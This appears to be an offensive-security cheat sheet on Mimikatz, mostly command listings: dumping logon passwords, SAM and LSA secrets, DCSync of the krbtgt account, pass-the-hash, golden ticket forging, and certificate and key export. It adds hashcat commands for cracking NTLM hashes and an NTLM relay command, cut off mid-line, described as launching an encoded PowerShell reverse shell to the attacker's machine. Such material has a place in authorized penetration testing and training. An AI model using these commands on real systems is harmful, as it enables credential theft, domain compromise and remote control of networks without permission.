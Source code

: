 # Using Mimikatz

> Resource: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)

Usages: Invoke-Mimikatz -Command '"lsadump::trust /patch"

```
#general
privilege::debug
log
log customlogfilename.log


#sekurlsa
sekurlsa::logonpasswords
sekurlsa::logonPasswords full
sekurlsa::tickets /export
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd

#kerberos
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi

#crypto
crypto::capi
crypto::cng
crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE
crypto::keys /export
crypto::keys /machine /export

#vault & lsadump
vault::cred
vault::list
token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert
lsadump::dcsync /user:domain\krbtgt /domain:lab.local

#pth
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a
sekurlsa::pth /user:Administrateur /domain:chocolate.local /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe

#ekeys
sekurlsa::ekeys

#dpapi
sekurlsa::dpapi

#minidump
sekurlsa::minidump lsass.dmp

#ptt
kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi

#golden/silver
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi

#tgt
kerberos::tgt

#purge
kerberos::purge
```



```
Trust keys
Invoke-Mimikatz-Command '"sekurlsa::keys"

#Dump from SAM data base
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'

#all domain users
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

#schedule task Users
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'


```

### Cracking NTLM <a href="#cracking-ntlm" id="cracking-ntlm"></a>

```
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force



NTLMv2
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```

### Relaying Net-NTLMv2 <a href="#relaying-net-ntlmv2" id="relaying-net-ntlmv2"></a>

**impacket-ntlmrelayx** package. We'll use **--no-http-server** to disable the HTTP server since we are relaying an SMB connection and **-smb2support** to add support for SMB2 We'll also use **-t** to set the target to FILES02. Finally, we'll set our command with **-c**, which will be executed on the target system as the relayed user. We'll use a PowerShell reverse shell one-liner, which we'll **base64-encode** and execute with the **-enc** argument as we've done before in this course. We should note that the **base64-encoded** PowerShell reverse shell one-liner is shortened in the following listing, but it uses the IP of our Kali machine and port 8080 for the reverse shell to connect.

Copy

```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell
```
